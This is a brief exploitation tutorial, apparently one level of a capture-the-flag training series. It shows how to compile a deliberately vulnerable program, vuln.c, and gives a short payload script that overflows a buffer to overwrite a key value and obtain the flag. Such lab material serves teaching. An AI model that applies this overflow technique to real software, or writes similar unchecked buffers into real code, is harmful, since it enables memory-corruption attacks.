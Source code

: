 Level 05
===

In this tutorial, we are going to exploit a simple buffer-overflow vulnerability
in `vuln.c`. The program can be compiled in both Windows and Linux.

### Building the Vulnerable Binary

On Linux,
```
gcc -o vuln vuln.c
```

On Windows,
```
cl vuln.c
```

### Exploiting the Vulnerability

We can overflow `buf` to overwrite the first eight byte of `key`. By making the
first eight byte of both `buf` and `key` to be `0xfeedfacecafebeef`, we can get
the flag. With PoE, the payload is as simple as follows.

```
act exploit():
    write(0xfeedfacecafebeef . "A"x24 . 0xfeedfacecafebeef . "\n")
    return rtrim(read("\n"))
```

